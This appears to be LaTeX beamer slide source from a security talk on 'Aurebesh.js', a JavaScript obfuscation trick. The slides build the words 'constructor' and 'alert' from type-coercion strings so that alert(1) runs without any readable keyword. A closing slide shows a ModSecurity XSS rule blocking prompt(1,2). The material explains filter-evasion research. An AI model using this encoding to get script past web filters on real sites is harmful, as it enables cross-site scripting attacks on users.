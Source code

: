 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]{Aurebesh.js - How it works part 1}
	\begin{lstlisting}[style=basicStyle]
A = ''              // empty string
B = !A + A          // "true"
C = !B + A          // "false"
D = A + {}          // "[object Object]"
E = B[A++]          // "t" = "true"[0]
F = B[G = A]        // "r" = "true"[1]
H = ++G + A         // 2, 3
I = D[G + H]        // "c"
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - How it works part 2}
	\begin{lstlisting}[style=basicStyle]
B[
  I +=              // "c"
    D[A] +          // "o" = "object"[0]
    (B.C+D)[A] +    // "n" = "undefined"[1]
    C[H] +          // "s" = "false"[3]
    E +             // "t"
    F +             // "r"
    B[G] +          // "u" = "true"[2]
    I +             // "c" = "[object]"[5]
    E +             // "t"
    D[A] +          // "o" = "[object]"[1]
    F               // "r"
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - How it works part 3}
	\begin{lstlisting}[style=basicStyle]
][
  I                 // "constructor"
](
  C[A] +            //  "a"
  C[G] +            //  "l"
  B[H] +            //  "e"
  F +               //  "r"
  E +               //  "t"
  "(A)"             // "(1)"
)()
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Aurebesh.js - prompt(1,2) blocked}
	\begin{lstlisting}[style=ruleStyle, language=XML]
<payload>prompt(1,2)</payload>

<message>"Javascript method detected"</message>
<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "714"] [id "941390"]<fileDetails>
<MatchedData>"prompt("</MatchedData>
\end{lstlisting}
\end{frame}
\end{document}
